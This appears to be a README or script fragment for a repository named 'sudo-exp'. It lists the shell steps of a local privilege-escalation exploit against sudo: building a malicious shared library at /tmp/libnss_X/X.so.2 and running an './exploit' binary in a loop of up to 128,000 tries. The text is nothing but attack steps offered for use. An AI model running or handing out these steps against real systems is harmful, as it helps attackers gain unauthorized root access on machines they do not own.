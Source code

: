 # sudo-exp
cd /tmp


mkdir libnss_X


gcc -fpic -shared -nostdlib -o libnss_X/X.so.2 la.c


for i in {1..128000}; do echo -n "try number $i "; ./exploit; done
